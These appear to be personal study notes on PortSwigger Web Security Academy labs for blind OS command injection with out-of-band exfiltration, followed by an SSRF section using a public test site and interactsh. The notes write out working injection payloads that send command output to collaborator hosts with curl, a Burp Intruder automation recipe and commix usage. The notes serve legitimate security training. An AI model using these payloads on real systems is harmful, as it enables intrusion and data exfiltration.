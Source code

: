 	Send request and check response in Collaborator client
	With this nslookup cmd if we see any DNS ping back that mean it vulnerable.
	Nslookup = check for DNS ping request.
o	OR can try curl http://<server.site>/<parameter>?=`<cmd>`
	||curl https://7fnveesauh94qyq.oastify.com/cmd?=`id`||
	curl = check for HTTP ping request.
	And In Request to Collaborator Tab, we can see result of the cmd which we used.
•	GET /cmd?=uid=12001(peter-M8qUUy) HTTP/1.1

•	Lab 4: Blind OS command injection with out-of-band interaction
o	How to automate this attack?
	Send request to Intruder > clear > add
	<a>curl http://<atackers.com><parameter>?=`command`<b>
	Positions > Attack type: Battering ram
	Payload paste : &,&&,|,||,;
	Payload Encoding: &
	Start attack and check HTTP req in Burp Collaborator.
•	Using Kali
o	Commix- COMMand Injection eXploiter | GitHub automates the detection and exploitation of command injection vulnerabilities.
o	$ git clone https://github.com/commixproject/commix.git commix to install
o	python commix.py -u <paste request url form burp> --data=”<POST req parameters>”
o	FOR LAB 1st SIMPLE CASE
	python commix.py -u https://0a2100ff0437594ac019536200db00a9.web-security-academy.net/product/stock --data="productId=20&storeId=1"

•	Lab 5: Blind OS command injection with out-of-band data exfiltration
o	Email=||curl+https://alz21na1hm2rwbjag54d7pm4uv0loa.oastify.com/cmd?=`id`||
o	Answer: peter-uRHL6i
 
*ATTACK*

Server-Side Request Forgery (SSRF)

Where an attacker abuses the functionality of a server causing it to access or manipulate information in the realm of that server that would otherwise not be directly accessible to the attacker.
Client(192.168.1.1) ==============> target.com
Client(192.168.1.1) ====> example.com ===> internal.target.com

•	Steps:
1.	Mapping of Application
2.	Find the Parameters:
a.	file=img.jpg
b.	path= /files/app/login
c.	url=https://example.com
3.	Payloads

•	LAB USING BURPSUITE: http://testphp.vulnweb.com/
o	FOR GET /showimage.php?file=./pictures/1.jpg HTTP/1.1
o	file=https://< Burp-Collaborator-client.com>
	Check HTTP Request result in the Burp Collaborator
o	IP address 44.228.249.3
o	Cross Check this IP on
	https://ipinfo.io/
	https://viewdns.info/reverseip/
	https://hackertarget.com/reverse-ip-lookup/
o	If all showing the same domain as ur target is then that mean its vulnerable for SSRF
	vulnweb.com
•	Using Kali
o	Interact.sh | GitHub
o	Interact.sh is an open-source tool for detecting out-of-band interactions. It is a tool designed to detect vulnerabilities that cause external interactions.
o	interactsh-client
	[INF] bgj8uhhm87951f70Ør0zbaqb3ry750zq.oast.online
o	Copy, and paste into place of Burp Collaborator client
o	[cbgj8uhhm87951f700rØzbaqb3ry750zq] Received HTTP interaction from 44.228.249.3 at 2022-07-27 12:50:23